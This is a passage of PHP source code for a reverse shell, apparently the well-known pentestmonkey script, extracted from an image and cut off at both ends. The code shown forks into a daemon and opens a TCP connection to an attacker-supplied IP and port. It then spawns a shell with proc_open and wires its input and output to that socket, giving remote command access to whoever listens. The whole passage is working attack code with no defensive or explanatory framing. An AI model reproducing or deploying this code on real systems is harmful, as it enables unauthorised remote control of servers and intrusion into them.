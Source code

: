 ```bat
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
```